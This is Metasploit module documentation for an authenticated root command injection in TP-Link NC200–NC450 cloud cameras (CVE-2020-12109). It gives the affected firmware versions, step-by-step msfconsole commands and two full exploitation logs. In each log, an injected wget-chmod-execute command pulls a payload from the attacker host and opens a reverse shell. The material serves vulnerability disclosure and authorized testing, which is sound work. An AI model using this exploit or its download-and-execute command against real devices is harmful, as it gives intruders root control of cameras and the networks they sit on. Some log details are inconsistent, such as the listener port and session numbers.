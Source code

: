 ## Vulnerable Application

TP-Link cloud cameras NCXXX series (NC200, NC210, NC220, NC230, 
NC250, NC260, NC450) are vulnerable to an authenticated command 
injection. In all devices except NC210, despite a check on the name 
length in `swSystemSetProductAliasCheck`, no other checks are in place 
in order to prevent shell metacharacters from being introduced. The 
system name would then be used in `swBonjourStartHTTP` as part of a 
shell command where arbitrary commands could be injected and 
executed as root. NC210 devices cannot be exploited directly via 
`/setsysname.cgi` due to proper input validation. NC210 devices are 
still vulnerable since `swBonjourStartHTTP` did not perform any 
validation when reading the alias name from the configuration file. 
The configuration file can be written, and code execution can be 
achieved by combining this issue with CVE-2020-12110.
This module will therefore support the following TP-Link cameras:

-NC200 <= 2.1.9 build 200225

-NC220 <= 1.3.0 build 200304 

-NC230 <= 1.3.0 build 200304

-NC250 <= 1.3.0 build 200304 

-NC260 <= 1.5.2 build 200304

-NC450 <= 1.5.3 build 200304

## Verification Steps
-Turn your camera on and make sure you can connect to its web interface.

-Take note of the camera model, ip address, web interface port and credentials.

-Once that is done, open msfconsole and execute the following commands:
   
1. `use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection`
2. `set rhost [camera ip]`
3. `set rport [camera web interface port, e.g. 80 or 443]`
4. `set target [ 0 for NC200, NC220, NC230, NC250 | 1 for NC260, NC450]`
5. `set username [web interface username]`
6. `set password [corresponding password]`
7. `set payload [payload of choice, e.g. linux/mipsle/shell/reverse_tcp]` 
8. `set lhost [host ip where our reverse shell is listening]`
9. `set lport [port to listen for incoming shell]`
10. `exploit`

You should get a shell.

## Options
**USERNAME**
The web interface username

**PASSWORD**
The web interface password for the specified username

**RHOSTS**
The target camera ip address

**RPORT**
The target port (TCP)

## Scenarios

Target = 0 (TP-Link NC200, NC220, NC230, NC250)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 80
rport => 80
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 0
target => 0
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.254:6666 
[*] Authenticating with admin:YWRtaW4= ...
[+] Logged-in as admin
[+] Got cookie: t46af69kmher6f9
[+] Got token: g3cgt74qi0li8rd
[*] Using URL: http://0.0.0.0:8080/UzN4UMl7PF9
[*] Local IP: http://10.0.2.15:8080/UzN4UMl7PF9
[*] Executing command: wget -qO /tmp/jxVywWSo http://192.168.0.254:8080/UzN4UMl7PF9;chmod +x /tmp/jxVywWSo;/tmp/jxVywWSo;rm -f /tmp/jxVywWSo
[*] Client 192.168.0.1 (Wget) requested /UzN4UMl7PF9
[*] Sending payload to 192.168.0.1 (Wget)
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 3 opened (192.168.0.254:6666 -> 192.168.0.1:60141) at 2020-09-16 18:58:02 -0400
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

```

Target = 1 (TP-Link NC260, NC450)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 443
rport => 443
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 1
target => 1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.254:5555 
[*] Authenticating with admin:0b8b946432f1ac91f0b07bd5f8df6587 ...
[+] Logged-in as admin
[+] Got cookie: s8ee6m830juadua
[+] Got token: kad9grok1ap37li
[*] Using URL: http://0.0.0.0:8080/Le4r7p9x
[*] Local IP: http://10.0.2.15:8080/Le4r7p9x
[*] Executing command: wget -qO /tmp/MzczOZUl http://192.168.0.254:8080/Le4r7p9x;chmod +x /tmp/MzczOZUl;/tmp/MzczOZUl;rm -f /tmp/MzczOZUl
[*] Client 192.168.0.1 (Wget/1.13.4 (linux-gnu)) requested /Le4r7p9x
[*] Sending payload to 192.168.0.1 (Wget/1.13.4 (linux-gnu))
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 3 opened (192.168.0.254:5555 -> 192.168.0.1:40216) at 2020-09-16 19:00:34 -0400
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Command shell session 4 opened (192.168.0.254:5555 -> 192.168.0.1:40220) at 2020-09-16 19:00:35 -0400
[*] Server stopped.
```

### References

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12109

https://nvd.nist.gov/vuln/detail/CVE-2020-12109

https://seclists.org/fulldisclosure/2020/May/2
